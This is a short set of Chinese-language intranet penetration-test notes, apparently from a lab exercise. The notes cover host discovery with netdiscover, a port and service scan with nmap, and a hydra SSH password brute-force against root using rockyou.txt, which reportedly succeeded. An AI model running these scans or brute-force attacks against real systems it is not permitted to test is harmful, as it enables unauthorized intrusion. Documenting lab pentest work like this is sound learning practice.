

# Intranet Penetration Test Notes

## 🌐 1. 内网主机发现

使用 `netdiscover` 快速发现当前网络中的活动主机：

```bash
netdiscover -i eth0 -r 192.168.54.0/24
```

结果中显示主机 IP 和对应 MAC 地址，标记可能目标主机。

---

## 🔍 2. 指定主机端口扫描

选择发现的一台主机（如 `192.168.54.9`），使用 `nmap` 扫描其开放端口和服务：

```bash
nmap -sS -sV -Pn 192.168.54.9
```

参数说明：

* `-sS`: TCP SYN 扫描（半连接）
* `-sV`: 探测服务版本
* `-Pn`: 跳过 ping，适用于被禁 ping 的主机

发现目标主机开放 SSH (22)，HTTP (80) 等端口。

---

## 🔐 3. SSH 爆破实验

对开放的 SSH 端口进行弱口令尝试：

```bash
hydra -l root -P rockyou.txt ssh://192.168.54.9
```

成功获取 root 用户的登录凭据。

---

（后续模块继续添加...）
